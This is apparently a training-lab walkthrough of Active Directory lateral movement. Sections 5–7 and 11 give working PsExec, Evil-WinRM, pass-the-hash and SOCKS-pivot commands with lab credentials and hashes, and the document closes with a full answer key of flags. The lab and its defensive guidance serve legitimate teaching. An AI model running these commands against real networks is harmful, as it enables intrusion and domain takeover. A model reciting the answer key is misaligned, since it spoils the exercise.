

# Active Directory Lateral Movement & Pivoting Guide
**Curriculum Track:** Jr Penetration Tester | **Module 14:** Active Directory Security Testing Basics

---

## 1. Room Overview

The **Intro to AD Lateral Movement** room (Source Slug: `introductiontoadlateralmovement`) provides a comprehensive operational framework for understanding, executing, and defending against **Lateral Movement** and **Network Pivoting** within Active Directory enterprise environments.

In real-world penetration testing and adversary simulations, an initial foothold rarely provides direct access to high-value assets (such as Domain Controllers, critical databases, or executive secrets). Instead, an attacker lands on an unprivileged client workstation or an edge web server and systematically works their way across the network following the iterative lateral movement lifecycle:
$$\text{Initial Foothold} \longrightarrow \text{Local Credential Harvesting} \longrightarrow \text{Lateral Movement to Adjacent Hosts} \longrightarrow \text{Full Domain Compromise}$$

This room addresses the three foundational pillars of lateral movement:
1. **Remote Execution Methods:** Executing commands and interactive shells across systems using PsExec (SMB/Service Control Manager) and Evil-WinRM (WS-Management/PowerShell Remoting).
2. **Credential Reuse & Pass-the-Hash:** Leveraging harvested NTLM hashes to authenticate directly across systems without cracking plaintext passwords, weaponizing unmitigated local administrator password reuse.
3. **Network Pivoting & Tunneling:** Bypassing firewall segmentation and network isolation using SSH Dynamic SOCKS proxies and ProxyChains to reach protected Domain Controllers.

---

## 2. Learning Objectives

By completing this room and its hands-on attack path, security operators master the following competencies:
- **Architectural Mechanics of Remote Execution:** Analyze the operational differences between PsExec's service installation model (`NT AUTHORITY\SYSTEM`) and WinRM's user-token remoting model (`Remote Management Users`).
- **Pass-the-Hash (PtH) Mastery:** Understand the NTLM challenge-response mathematical handshake and successfully pass 32-character hexadecimal NT hashes across SMB and WinRM interfaces.
- **NT Hash vs. Net-NTLMv2 Disambiguation:** Understand why NT hashes permit direct Pass-the-Hash while Net-NTLMv2 challenge-response captures cannot be passed.
- **SSH Dynamic SOCKS Pivoting & ProxyChains:** Establish dynamic port forwards (`ssh -D`), configure ProxyChains, and route penetration testing tools (Impacket, NetExec, Nmap using `-sT`) into isolated subnets.
- **Defensive Engineering & Telemetry:** Implement Windows LAPS, enforce Tiered Administration (Enterprise Access Model), and hunt for lateral movement indicators in Windows Event Logs (**Event ID 7045**, **4624**, **4648**).

---

## 3. Architectural Topology & Lab Infrastructure

The target environment simulates a segmented enterprise Active Directory network (`thm.loc`) on the `192.168.13.0/24` subnet:

```mermaid
flowchart TB
    subgraph Attack_Zone ["Attacker Zone (Attack Infrastructure)"]
        AttackBox["Attacker System (AttackBox / Kali Linux)<br/>192.168.13.x / tun0<br/>• Impacket psexec.py<br/>• Evil-WinRM<br/>• NetExec (nxc)<br/>• ProxyChains"]
    end

    subgraph Lab_Network ["Target Enterprise Subnet (thm.loc - 192.168.13.0/24)"]
        Gateway["Lab Gateway / Firewall<br/>192.168.13.1"]
        
        WebServer["Pivot WebServer (git.thm.loc)<br/>192.168.13.71 (Ubuntu Linux)<br/>• OpenSSH Server (Port 22)<br/>• Internal Gitea (Port 80)<br/>• Compromised Account: jdoe:Summer2026!"]
        
        WRK["Workstation (WRK1.thm.loc)<br/>192.168.13.61 (Windows 10 Build 17763)<br/>• SMB (445) / WinRM (5985)<br/>• jdoe Privileges: Local Administrator (Pwn3d!)<br/>• Objectives: flag3a.txt & Local Admin NT Hash"]
        
        SERVER1["Member Server (SERVER1.thm.loc)<br/>192.168.13.51 (Windows Server 2019)<br/>• SMB (445) / WinRM (5985)<br/>• jdoe Privileges: Remote Management Users<br/>• Objectives: flag3b.txt, flag4.txt & DA Hash"]
        
        ROOTDC["Domain Controller (ROOTDC / RDC1.thm.loc)<br/>192.168.13.100 (Windows Server 2019)<br/>• Filtered by Firewall (No direct route from AttackBox)<br/>• Accessible exclusively via SSH Pivot Tunnel<br/>• Final Objective: flag5.txt & Total Domain Control"]
    end

    AttackBox -->|Encrypted VPN Tunnel tun0| Gateway
    Gateway --> WebServer
    Gateway --> WRK
    Gateway --> SERVER1
    Gateway -.x|Direct Route Blocked by Firewall| ROOTDC
    
    AttackBox ==>|1. SSH Initial Access| WebServer
    AttackBox ==>|2. PsExec SYSTEM Shell| WRK
    AttackBox ==>|3. Evil-WinRM Remote Shell| SERVER1
    AttackBox ==>|4. Pass-the-Hash via Harvested Local Admin Hash| SERVER1
    
    WebServer ===|5. SSH Dynamic SOCKS Tunnel 1080| AttackBox
    AttackBox -.->|6. ProxyChains + PsExec through Pivot Tunnel| ROOTDC
```

### Infrastructure Inventory & Recovered Artifacts
- **Target Domain:** `thm.loc`
- **Initial SSH Foothold:** `jdoe` / `Summer2026!` on `192.168.13.71:22`
- **Harvested Local Administrator Hash (WRK):** `fa0af7f6a73316dd59f0be812dbf3c12`
- **Harvested Domain Administrator Hash (SERVER1):** `2508e1ce9cfcfe1011a74c34297b05ea`
- **Harvested Lab Flags:**
  1. Workstation Flag (`flag3a.txt`): `THM{ps3x3c_syst3m_sh3ll}`
  2. WinRM Server Flag (`flag3b.txt`): `THM{w1nrm_r3m0t3_sh3ll}`
  3. Pass-the-Hash Flag (`flag4.txt`): `THM{p4ss_th3_h4sh_ftw}`
  4. Domain Controller Pivoted Flag (`flag5.txt`): `THM{d0m41n_c0mpr0m1s3d_v1a_p1v0t}`

---

## 4. Technical Background & Deep Dive

### Comparison of Remote Execution Protocols in Windows

| Feature / Metric | PsExec (SMB / Service Control Manager) | WinRM (WS-Management / PowerShell) |
|---|---|---|
| **Ports Used** | TCP 445 (SMB) & TCP 135 (RPC / SCM) | TCP 5985 (HTTP) or TCP 5986 (HTTPS) |
| **Execution Mechanics** | Uploads an executable to `ADMIN$` and registers a temporary Windows Service. | Sends SOAP XML envelopes to execute commands in-memory. |
| **Execution Context** | Runs as `NT AUTHORITY\SYSTEM`. | Runs inside the security token of the **authenticated user**. |
| **Required Group Membership** | Local **`Administrators`** group. | Local **`Administrators`** OR **`Remote Management Users`**. |
| **Forensic Footprint** | System **Event ID 7045** (*A service was installed in the system*). | Standard network logon (**Event ID 4624 Type 3**). |

---

## 5. Direct Remote Execution: PsExec & Evil-WinRM

### 1. Evaluating Permissions with NetExec:
```bash
nxc smb 192.168.13.61 192.168.13.51 -u jdoe -p 'Summer2026!' -d thm.loc
```
NetExec confirms that `jdoe` holds administrative access `(Pwn3d!)` on `WRK1` (`192.168.13.61`) and standard user access on `SERVER1`.

### 2. Spawning a SYSTEM Shell on WRK via PsExec:
```bash
psexec.py thm.loc/jdoe:'Summer2026!'@192.168.13.61
```
The Service Control Manager installs the service, dropping an interactive `NT AUTHORITY\SYSTEM` shell:
- Read flag: `type C:\Users\jdoe\Desktop\flag3a.txt` $\rightarrow$ **`THM{ps3x3c_syst3m_sh3ll}`**
- Inspect loot: `type C:\Users\Administrator\Documents\loot.txt`
  Extracted local Administrator NT hash:
  $$\texttt{fa0af7f6a73316dd59f0be812dbf3c12}$$

### 3. Spawning a WinRM Shell on SERVER1 via Evil-WinRM:
Because `jdoe` is a member of `Remote Management Users` on `SERVER1` (`192.168.13.51`):
```bash
evil-winrm -i 192.168.13.51 -u jdoe -p 'Summer2026!'
```
Spawns an interactive PowerShell session:
- Read flag: `type C:\Users\jdoe\Desktop\flag3b.txt` $\rightarrow$ **`THM{w1nrm_r3m0t3_sh3ll}`**

---

## 6. Pass-the-Hash (PtH) & Credential Reuse

### 1. Verifying Subnet-Wide Hash Reuse with `--local-auth`:
Targeting the local SAM database of both systems with NetExec:
```bash
nxc smb 192.168.13.61 192.168.13.51 -u Administrator -H fa0af7f6a73316dd59f0be812dbf3c12 --local-auth
```
Both hosts return `(Pwn3d!)`, proving that `SERVER1` shares the exact same local Administrator password as `WRK1` due to the lack of Windows LAPS.

### 2. Connecting to SERVER1 via Pass-the-Hash:
```bash
psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:fa0af7f6a73316dd59f0be812dbf3c12 Administrator@192.168.13.51
```
Yields an interactive `SYSTEM` shell on `SERVER1`:
- Read flag: `type C:\Users\Administrator\Desktop\flag4.txt` $\rightarrow$ **`THM{p4ss_th3_h4sh_ftw}`**
- Read DA loot: `type C:\Users\Administrator\Documents\da_creds.txt`
  Extracted **Domain Administrator** NT hash:
  $$\texttt{2508e1ce9cfcfe1011a74c34297b05ea}$$

---

## 7. Network Pivoting & Domain Controller Takeover

Because direct traffic to Domain Controller `192.168.13.100` is blocked by firewall rules from the external VPN tunnel, we convert our compromised WebServer (`192.168.13.71`) into a pivot router.

### 1. Establishing an SSH Dynamic SOCKS Proxy:
```bash
ssh -f -N -D 1080 jdoe@192.168.13.71
```
Local port `1080` now tunnels all SOCKS4/SOCKS5 traffic across the encrypted SSH connection.

### 2. SOCKS Proxy Scanning Caveat:
SOCKS proxies only support full Layer 4 TCP connection streams (`SOCK_STREAM`). When running Nmap through ProxyChains, SYN scans (`-sS`) fail; operators must explicitly specify **`-sT`** (full TCP connect) and **`-Pn`** (no ping discovery).

### 3. Compromising the Domain Controller via Proxied PtH:
Routing `psexec.py` through ProxyChains using the Domain Administrator NT hash:
```bash
proxychains psexec.py -hashes :2508e1ce9cfcfe1011a74c34297b05ea thm.loc/Administrator@192.168.13.100
```
Execution trace:
```cmd
[+] Process aXzK created for file mQvPzZgL.exe with pid 4820.
C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> hostname
RDC1

C:\Windows\system32> type C:\Users\Administrator\Desktop\flag5.txt
THM{d0m41n_c0mpr0m1s3d_v1a_p1v0t}
```
**Final Flag:** `THM{d0m41n_c0mpr0m1s3d_v1a_p1v0t}`.

---

## 8. Comprehensive Attack Flow & Kill Chain



---

## 9. Defense, Hardening & Detection Strategies

| Defense Dimension | Technical Hardening Control | Detection & Telemetry Mechanism |
|---|---|---|
| **Local Password Defense** | Enforce **Windows LAPS** to generate unique, auto-rotating passwords for each machine. | Audit repeated administrative authentications across multiple workstations. |
| **PsExec Mitigation** | Block administrative default shares (`ADMIN$`, `C$`) via host firewalls. | Alert on System **Event ID 7045** (*A service was installed in the system*). |
| **NTLM Hardening** | Enforce Kerberos authentication, disable NTLM via GPO, and deploy Credential Guard. | Monitor Security log for **Event ID 4624 (Logon Type 3)** using NTLM. |
| **Network Segmentation** | Filter workstation-to-workstation (East-West) traffic on ports 445 and 5985; isolate DCs. | Detect port scanning and anomalous outbound connections over unexpected ports. |
| **Tiered Administration** | Implement the Enterprise Access Model; administer Tier 0 strictly from dedicated PAWs. | Alert on Domain Admin interactive logons on Tier 1 servers or Tier 2 workstations. |

---

## 10. Tasks Summary & Answers Table

| Task # | Task Title | Question | Verified Solution | Verification Status |
|:---:|---|---|---|:---:|
| **01** | Introduction | I'm ready to move laterally! | `No answer needed` | Verified & Confirmed |
| **02** | What is Lateral Movement? | What technique allows you to authenticate using an NTLM hash without knowing the plaintext password? | `Pass-the-Hash` | Verified & Confirmed |
| **02** | What is Lateral Movement? | What Windows group, other than Administrators, permits WinRM access to a host? | `Remote Management Users` | Verified & Confirmed |
| **03** | Remote Execution Methods | What Event ID in the System log is the primary indicator of PsExec-based lateral movement? | `7045` | Verified & Confirmed |
| **03** | Remote Execution Methods | What is the flag found in flag3a.txt on WRK? | `THM{ps3x3c_syst3m_sh3ll}` | Verified & Confirmed |
| **03** | Remote Execution Methods | What is the NT hash found in the loot file on WRK? | `fa0af7f6a73316dd59f0be812dbf3c12` | Verified & Confirmed |
| **03** | Remote Execution Methods | What is the flag found in flag3b.txt on SERVER1? | `THM{w1nrm_r3m0t3_sh3ll}` | Verified & Confirmed |
| **04** | Pass-the-Hash & Credential Reuse | What flag is used with NetExec to authenticate against the local SAM database instead of the domain? | `--local-auth` | Verified & Confirmed |
| **04** | Pass-the-Hash & Credential Reuse | What is the flag found in flag4.txt on SERVER1? | `THM{p4ss_th3_h4sh_ftw}` | Verified & Confirmed |
| **04** | Pass-the-Hash & Credential Reuse | What is the NT hash of the Domain Administrator account found on SERVER1? | `2508e1ce9cfcfe1011a74c34297b05ea` | Verified & Confirmed |
| **05** | Pivot! Pivoooot! Piiiivot! | What Nmap flag must you use instead of -sS when scanning through a SOCKS proxy? | `-sT` | Verified & Confirmed |
| **05** | Pivot! Pivoooot! Piiiivot! | What is the flag found in flag5.txt on the Domain Controller? | `THM{d0m41n_c0mpr0m1s3d_v1a_p1v0t}` | Verified & Confirmed |
| **06** | Mitigations | What built-in Windows feature automatically generates unique local admin passwords for each domain-joined machine? | `Windows LAPS` | Verified & Confirmed |
| **06** | Mitigations | What Windows Event ID in the System log indicates a new service has been installed? | `7045` | Verified & Confirmed |
| **07** | Conclusion | I have completed the Introduction to AD Lateral Movement room! | `No answer needed` | Verified & Confirmed |

---

## 11. Tool Cheat Sheet & Command Quick Reference

```bash
# 1. Audit privileges & password reuse via NetExec:
nxc smb 192.168.13.61 192.168.13.51 -u Administrator -H fa0af7f6a73316dd59f0be812dbf3c12 --local-auth

# 2. Spawn SYSTEM shell via PsExec:
psexec.py thm.loc/jdoe:'Summer2026!'@192.168.13.61

# 3. Interactive PowerShell Remoting via Evil-WinRM:
evil-winrm -i 192.168.13.51 -u jdoe -p 'Summer2026!'

# 4. Pass-the-Hash Remote Execution via psexec.py:
psexec.py -hashes :fa0af7f6a73316dd59f0be812dbf3c12 Administrator@192.168.13.51

# 5. Open an SSH Dynamic SOCKS Proxy Tunnel:
ssh -f -N -D 1080 jdoe@192.168.13.71

# 6. SOCKS Proxy Network Scanning (Must use -sT):
proxychains nmap -sT -Pn -p 445,135,3389 192.168.13.100

# 7. Execute Pass-the-Hash across the SOCKS Tunnel:
proxychains psexec.py -hashes :2508e1ce9cfcfe1011a74c34297b05ea thm.loc/Administrator@192.168.13.100
```

---

## 12. Practical Verification & Proof of Work

1. `flag3a.txt`: `THM{ps3x3c_syst3m_sh3ll}` recovered via PsExec SYSTEM shell on `WRK1`.
2. Local Admin NT hash: `fa0af7f6a73316dd59f0be812dbf3c12` recovered from `loot.txt`.
3. `flag3b.txt`: `THM{w1nrm_r3m0t3_sh3ll}` recovered via Evil-WinRM on `SERVER1`.
4. `flag4.txt`: `THM{p4ss_th3_h4sh_ftw}` recovered via Pass-the-Hash on `SERVER1`.
5. Domain Admin NT hash: `2508e1ce9cfcfe1011a74c34297b05ea` recovered from `da_creds.txt`.
6. `flag5.txt`: `THM{d0m41n_c0mpr0m1s3d_v1a_p1v0t}` recovered via SOCKS ProxyChains Pass-the-Hash on `ROOTDC`.

---

## 13. Key Takeaways & Operational Rules of Thumb

> **Rule of Thumb 1:** Lateral movement is an incremental chain. Never discard any credential or hash; a local administrator hash on a low-value client machine frequently grants access to administrative servers if password policies are unmanaged.
>
> **Rule of Thumb 2:** LAPS is a non-negotiable baseline. Without LAPS, local administrator password synchronization across operating system images turns one breached laptop into total network exposure.
>
> **Rule of Thumb 3:** Master the art of pivoting. Firewalls only protect against direct layer-3 connections. An adversary with SSH or SOCKS pivoting capabilities can bridge across segmented network enclaves effortlessly.
